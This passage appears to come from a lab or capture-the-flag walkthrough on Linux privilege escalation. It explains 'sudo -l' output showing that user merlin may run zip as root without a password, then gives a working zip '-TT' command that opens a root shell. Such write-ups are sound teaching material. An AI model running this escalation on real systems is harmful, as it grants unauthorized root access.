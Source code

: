 The executed command was:

```
sudo -l
```
<br>

### **Terminal:**
<pre><code style="font-size: 12px; color: rgb(60, 175, 31);">
   merlin@ubuntu:/$ sudo -l
   Matching Defaults entries for merlin on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

   User merlin may run the following commands on ubuntu:
      (root : root) NOPASSWD: /usr/bin/zip
</code></pre>

<br>

This command lists the `sudo` privileges for the current user (`merlin`). It shows which commands the user can execute with elevated (root) permissions and whether a password is required.

---

### Analyzing the Output

1. **Defaults Entries**  
   - `env_reset`: Resets the user's environment variables when using `sudo`, ensuring a more secure environment.  
   - `mail_badpass`: Sends an email to the administrator if an incorrect password is entered when using `sudo`.  
   - `secure_path`: Defines the secure directories where `sudo` can find executables.  

<br>

2. **User (`merlin`) Privileges**  
   - The user **can execute the `/usr/bin/zip` command as root**.  
   - **NOPASSWD** means that **no password is required** when executing this command with `sudo`.  

---

### What Does This Mean?

The user `merlin` can run the `zip` command as **root** without needing to enter a password. This could be exploited for privilege escalation, depending on the system configuration.

<br><br>

# 10 - Privilege escalation:

### **Script:**
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
<br>
